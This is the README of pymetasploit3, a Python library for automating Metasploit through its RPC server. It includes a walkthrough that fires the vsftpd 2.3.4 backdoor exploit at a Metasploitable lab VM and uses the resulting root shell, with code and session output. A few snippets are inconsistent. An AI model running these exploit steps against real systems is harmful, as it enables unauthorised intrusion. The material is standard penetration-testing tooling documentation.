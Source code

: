 Pymetasploit33
=======

Pymetasploit3 is a full-fledged Python3 Metasploit automation library. It can interact with Metasploit either through msfrpcd or the msgrpc plugin in msfconsole.

# Original library: pymetasploit

This is an updated and improved version of the Python2 pymetasploit library by allfro.

Original project  : https://github.com/allfro/pymetasploit

# Installation

    git clone https://github.com/DanMcInerney/pymetasploit3
    cd [Download path]/pymetasploit3
    pip3 install pymetasploit3 --user (or omit --user to install system-wide, not recommended)

# Basic Usage

## Starting Metasploit RPC server

### Msfconsole
This will start the RPC server on port 55553 as well as the Metasploit console UI
```bash
$ msfconsole
msf> load msgrpc [-P yourpassword]
```
### msfrpcd
This will start the RPC server on port 55552 and will just start the RPC server in the background
```bash
$ msfrpcd -P yourpassword
```

## RPC client

### Connecting to `msfrpcd`

```python
>>> from pymetasploit3.msfrpc import MsfRpcClient
>>> client = MsfRpcClient('yourpassword')
```

The `MsfRpcClient` class provides the core functionality to navigate through the Metasploit framework. Use 
```dir(client)``` to see the callable methods.

```python
>>> [m for m in dir(client) if not m.startswith('_')]
['auth', 'authenticated', 'call', 'client', 'consoles', 'core', 'db', 'jobs', 'login', 'logout', 'modules', 'plugins',
'port', 'server', 'token', 'sessions', 'ssl', 'uri']
>>>
```

Like the metasploit framework, `MsfRpcClient` is segmented into different management modules:

* **`auth`**: manages the authentication of clients for the `msfrpcd` daemon.
* **`consoles`**: manages interaction with consoles/shells created by Metasploit modules.
* **`core`**: manages the Metasploit framework core.
* **`db`**: manages the backend database connectivity for `msfrpcd`.
* **`modules`**: manages the interaction and configuration of Metasploit modules (i.e. exploits, auxiliaries, etc.)
* **`plugins`**: manages the plugins associated with the Metasploit core.
* **`sessions`**: manages the interaction with Metasploit meterpreter sessions.

### Running an exploit

Explore exploit modules:

```python
>>> client.modules.exploits
['windows/wins/ms04_045_wins', 'windows/winrm/winrm_script_exec', 'windows/vpn/safenet_ike_11',
'windows/vnc/winvnc_http_get', 'windows/vnc/ultravnc_viewer_bof', 'windows/vnc/ultravnc_client', ...
'aix/rpc_ttdbserverd_realpath', 'aix/rpc_cmsd_opcode21']
>>>
```

Explore other modules:

```python
>>> client.modules.auxiliary
...
>>> client.modules.encoders
...
>>> client.modules.nops
...
>>> client.modules.payloads
...
>>> client.modules.post
...
```

Create an exploit module object:

```python
>>> exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
>>>
```

Explore exploit information:

```python
>>>  print(exploit.description)

          This module exploits a malicious backdoor that was added to the	VSFTPD download
          archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
          June 30th 2011 and July 1st 2011 according to the most recent information
          available. This backdoor was removed on July 3rd 2011.

>>> exploit.authors
[pymetasploit3, pymetasploit3]
>>> exploit.options
['TCP::send_delay', 'ConnectTimeout', 'SSLVersion', 'VERBOSE', 'SSLCipher', 'CPORT', 'SSLVerifyMode', 'SSL', 'WfsDelay',
'CHOST', 'ContextInformationFile', 'WORKSPACE', 'EnableContextEncoding', 'TCP::max_send_size', 'Proxies',
'DisablePayloadHandler', 'RPORT', 'RHOST']
>>> exploit.missing_required # Required options which haven't been set yet
['RHOST']
>>>
```

Let's use a [Metasploitable 2](http://sourceforge.net/projects/metasploitable/) instance running on a VMWare
machine as our exploit target. It's running our favorite version of vsFTPd - 2.3.4 - and we already have our exploit
module loaded. Our next step is to specify our target:

```python
>>> exploit['RHOST'] = '172.16.14.145' # IP of our target host
>>>
```

Select a payload:

```python
>>> exploit.targetpayloads()
['cmd/unix/interact']
>>>
```

At this point, this exploit only supports one payload (`cmd/unix/interact`). So let's pop a shell:

```python
>>> exploit.execute(payload='cmd/unix/interact')
{'job_id': 1, 'uuid': '3whbuevf'}
>>>
```

We know the job ran successfully because `job_id` is `1`. If the module failed to execute for any reason, `job_id` would
 be `None`. If we managed to pop our box, we might see something nice in the sessions list:

```python
>>> client.sessions.list
{1: {'info': '', 'username': 'jsmith', 'session_port': 21, 'via_payload': 'payload/cmd/unix/interact',
'uuid': '5orqnnyv', 'tunnel_local': '172.16.14.1:58429', 'via_exploit': 'exploit/unix/ftp/vsftpd_234_backdoor',
'exploit_uuid': '3whbuevf', 'tunnel_peer': '172.16.14.145:6200', 'workspace': 'false', 'routes': '',
'target_host': '172.16.14.145', 'type': 'shell', 'session_host': '172.16.14.145', 'desc': 'Command shell'}}
>>>
```

### Interacting with the shell
Create a shell object out of the session number we found above and write to it:

```python
>>> shell = client.sessions.session('1')
>>> shell.write('whoami')
>>> print shell.read()
root
>>>
```

Run the same `exploit` object as before but wait until it completes and gather it's output:

```python
>>> cid = client.consoles.console().cid # Create a new console and store its number in 'cid'
>>> print(client.consoles.console(cid).run_module_with_output(exploit, payload='cmd/unix/interact'))
# Some time passes
'[*] 172.16.14.145:21 - Banner: 220 vsFTPd 2.3.4
[*] 172.16.14.145:21 - USER: 331 Please specify the password
...
'

```

Running session commands isn't as simple as console commands. The Metasploit RPC server will return a `busy` value that 
is `True` or `False` with `client.console.consoles('1').is_busy()` but determining if a `client.sessions.session()`  is 
done running a command requires us to do it by hand. For this purpose we will use a list of strings that, when any one 
is found in the session's output, will tell us that the session is done running its command. Below we are running the 
`arp` command within the session. We know this command will return one large blob of text that will contain the 
characters `----` if it's successfully run so we put that into a list object. 
 
 ```python
>>> session_id = '1'
>>> session_command = 'arp'
>>> terminating_strs = ['----']
>>> client.session.sessions(session_id).run_with_output(session_command, terminating_strs)
# Some time passes
'\nARP Table\n                  ---------------\n  ...`
```

One can also use a timeout and simply return all data found before the timeout expired. `timeout` defaults to 
Metasploit's comm timeout of 300s and will throw an exception if the command timed out. To change this, set 
 `timeout_exception` to `False` and the library will simply return all the data from the session output it found before
 the timeout expired.
 ```python
>>> session_id = '1'
>>> session_command = 'arp'
>>> terminating_strs = ['----']
>>> client.session.sessions(session_id).run_with_output(session_command, terminating_strs, timeout=10, timeout_exception=False))
# 10s pass
'\nARP Table\n                  ---------------\n  ...`
```

# Contributions

I highly encourage contributors to send in any and all pull requests or issues. And thank you to allfro for writing
the original pymetasploit library.